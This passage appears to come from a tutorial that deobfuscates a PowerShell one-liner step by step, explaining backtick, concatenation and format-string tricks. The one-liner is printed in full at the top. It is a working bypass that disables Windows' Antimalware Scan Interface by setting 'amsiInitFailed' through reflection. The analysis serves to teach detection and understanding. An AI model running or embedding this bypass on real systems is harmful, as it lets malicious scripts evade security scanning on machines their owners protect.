 ```
S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE (('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(("{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```

Let's go through this step-by-step.

### Third Section - Step 1 - Variable Declaration

The first set of code in this block is as follows:

```
S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','rE' ) ) ;
```

This may look weird, but it's rather simplistic in its obfuscation. First, it uses backtick marks (\`) between letters; these backticks are ignored by the interpreter when executed, which effectively means that ``S`eT-It`em`` simply means `Set-Item`. The rest of the first part of this string is simply character concatenation, which resolves to `Variable:1q2uZx`. Finally, the third type of obfuscation used in this block is basic string formatting. This simply means that the string is put together based on an array of values. In this case, we have `{1}{0}`, which means that the second item in the array ({1}) is immediately followed by the first item in the array ({0}). The array starts after the `-F` flag, meaning `F` is the first item and `rE` is the second item. This, in turns, will format together into `[TYpE]reF`. This is a special type of variable that is known as a `reference type`; that is, rather than it being a variable holding a value, it is a variable holding a reference. The `[ref]` variable is a special pointer to the class `System.Management.Automation.PSReference`.

All in all, the full deobfuscated string for this code block will look like the following:

`Set-Item variable:1q2uZx System.Management.Automation.PSReference`

This is simply creating a `PSReference` object into a session-specific variable named `1q2uZx`.

### Third Section - Step 2 - Variable Reference

The second set of code in the block is:

```
( Get-varI`A`BLE (('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"
```

The first part of this is simply getting the value of the variable `1q2uZx` that was created in the previous command. This variable is simply a reference to the `System.Management.Automation` namespace within the .NET framework. For those unaware, this namespace is effectively the .NET runtime used for PowerShell. All things PowerShell, from running commands, accessing the file system, managing processes, etc, execute within this namespace. 

For this command, it is accessing the assemblies found within this namespace, due to the `.Assembly` part of the command. It is also looking for a specific one, as it specifies `GetType` (what it is looking for will be covered in the next section).

So all in all, this part of the code is simply accessing a specific class, and looks like the following after deobfuscation:

`[ref].Assembly.GetType`
